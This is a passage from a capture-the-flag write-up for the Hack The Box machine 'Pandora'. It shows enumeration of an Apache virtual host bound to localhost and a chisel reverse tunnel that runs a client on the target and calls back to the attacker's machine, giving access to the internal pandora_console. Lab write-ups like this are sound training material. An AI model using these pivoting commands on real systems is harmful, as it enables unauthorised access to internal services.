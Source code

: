 It seems that there is a virtual host named `pandora` but we couldn't see it from port 80\
Let's see apache config files:
```xml
daniel@pandora:~$ cd /etc/apache2/
daniel@pandora:/etc/apache2$ grep -ir pandora .
./sites-available/pandora.conf:  ServerName pandora.panda.htb
./sites-available/pandora.conf:  DocumentRoot /var/www/pandora
./sites-available/pandora.conf:  <Directory /var/www/pandora>
daniel@pandora:/etc/apache2$


daniel@pandora:/etc/apache2$ cat ./sites-available/pandora.conf
<VirtualHost localhost:80>
  ServerAdmin admin@panda.htb
  ServerName pandora.panda.htb
  DocumentRoot /var/www/pandora
  AssignUserID matt matt
  <Directory /var/www/pandora>
    AllowOverride All
  </Directory>
  ErrorLog /var/log/apache2/error.log
  CustomLog /var/log/apache2/access.log combined
</VirtualHost>
```

As we see the service is listening on `localhost:80` so we can only access it from inside the box:
+ VirtualHost localhost:80
+ ServerAdmin admin@panda.htb
+ ServerName pandora.panda.htb
+ DocumentRoot /var/www/pandora

Let's use [chisel](https://github.com/jpillora/chisel) to forward the machines `localhost:80` to our machines `localhost:80`
Don't forget to set `cap_net_bind_service` for chisel so it can bind service to port 80 which needs privileged access\
Then run it twice, one on your machine on  `server` mode and the second on the remote box with `client` mode:

```bash
$ sudo setcap 'cap_net_bind_service+ep' ./chisel

# Our Machine
$ ./chisel server --reverse -p 8000 

# Remote Target
$ ./chisel client IP:8000 R:80:127.0.0.1:80
```

Now we can access the remote box's `http://localhost:80` from our machines `http://localhost:80`\
And here is the `pandora_console`: